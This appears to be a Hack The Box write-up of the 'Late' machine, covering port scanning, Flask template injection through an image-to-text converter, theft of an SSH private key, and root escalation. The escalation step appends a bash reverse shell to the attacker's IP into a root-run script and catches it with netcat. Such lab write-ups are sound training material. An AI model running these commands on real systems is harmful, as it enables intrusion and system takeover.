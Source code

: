 ```yaml
---
title: '[HTB] Late'
date: 2022-05-29 8:45 PM
categories: [HTB, Machines]
tags: [easy, linux, machines, flask]
permalink: /:categories/:title
img_path: /assets/img/htb/machines/late
---
```


![banner](banner.png) 

## Enumeration

### NMAP

```console
❯ nmap -sV --open 10.10.11.156
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-04 11:19 CEST
Nmap scan report for 10.10.11.156
Host is up (0.084s latency).
Not shown: 961 closed tcp ports (conn-refused), 37 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.54 seconds
```
> We see port 80 and 22 are open, so we have to go to the website.

### Domains

When we enter to the website and look at the source code we found this:

![source](source.png) 
_Source code website_


```console
❯ echo "10.10.11.156 late.htb images.late.htb" | sudo tee -a /etc/hosts
```
If we see the domain there is nothing interesting.

![domain](domain.png) 
_Domain website_

On the subdomain we have a image to text conversor. This website use Flask, after a [search](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee) I know what I need to do.

![subdomain](subdomain.png) 
_Subdomain website_

## Foothold

### Flask injection 

In first place I'm gonna test if this vulnerability works. Using {{ config }} list internal flask configurations, let's see.

![img1](img1.png)
_First image_

After uploading the image we download a txt file with the result. This image give us the following result, which confirms that is vulnerable to Flask injection.

![result1](result1.png)
_First result_

Following instructions form the website that explained the Flask injection, we can do RCE.

![img2](img2.png)
_Second image_

Seeing the file `/etc/passwd`{: .filepath} we can know the username to later start an ssh session with this.

![result2](result2.png)
_Second result_

Now we just extract the OpenSSH private key and we can login. 

![img3](img3.png)
_Final image_

Here is the id_rsa file. 

![result3](result3.png)
_Final result_

### SSH 

```console
❯ ssh -i id_rsa user@late.htb
user@late:~$ id
uid=1000(user) gid=1000(user) groups=1000(user)
user@late:~$ 
```

### Privilege Escalation

If we use linpeas, we can see that in `/usr/local/sbin`{: .filepath} we have a high PE vector.

![linpeas](linpeas.png) 
_linpeas output_

If we go to the directory, there is a script with execute permissions.

Well, they make it easy for us. We introduce a reverse shell in the script and then ssh to localhost to trigger the script, since it is a script that alerts of ssh logins.

```console
user@late:/usr/local/sbin$ ls -l
total 4
-rwxr-xr-x 1 user user 433 Jun  4 09:46 ssh-alert.sh
user@late:/usr/local/sbin$ echo 'bash -i >& /dev/tcp/10.10.16.10/4444 0>&1' >> ssh-alert.sh ; ssh localhost
```

While the netcat will be active and when we have used the previous command we will already be inside the root user.

```console
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.11.156] 60668
bash: cannot set terminal process group (27514): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## Conclusion

This machine is not difficult but Flask injection makes it difficult. I had to test the injection with many formats, many times. Since the app didn't read it well. Ignoring that, a fun and easy machine.

### Techniques and Tools

1. nmap 
2. linpeas
3. Flask injection 
4. RCE (Remote Code Execution)
5. PE (Privilege Escalation)
